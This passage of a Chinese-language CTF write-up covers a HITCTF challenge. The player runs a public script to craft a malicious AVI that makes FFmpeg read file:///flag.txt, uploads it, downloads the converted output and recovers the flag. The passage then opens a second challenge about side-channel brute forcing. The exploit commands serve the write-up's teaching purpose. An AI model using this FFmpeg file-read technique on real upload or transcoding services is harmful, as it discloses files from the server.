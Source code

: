 http://www.freebuf.com/column/142775.html

而这题的做题方法如下

1.下载脚本 https://github.com/neex/ffmpeg-avi-m3u-xbin/blob/master/gen_xbin_avi.py

2.运行脚本：python3 gen_xbin_avi.py file:///flag.txt 123.avi

此时可以生成我们需要的恶意文件123.avi

注：这里题目要求必须上传文件名为123.avi的文件

上传后得到

upload success: 15174734042.avi 

but it wont last long

我们去下载

http://198.13.58.35:2333/download?name=15174734042.avi

<img src="/images/image001.jpg">

即可下载到文件，打开即可看到flag：

![](img/f473f5875148b0f52f46e8ae4c37b826.png)

HITCTF{O0o0o0oOracle_Attttttack_1s_yinQu3S17ing}

06

SecurePY

此题本质上是一道侧信道攻击爆破的题目

我们根据题目所述：

[uwsgi]

chdir=/app

module=app

callable=app

可以知道这是一个python服务端程序，主程序为app.py

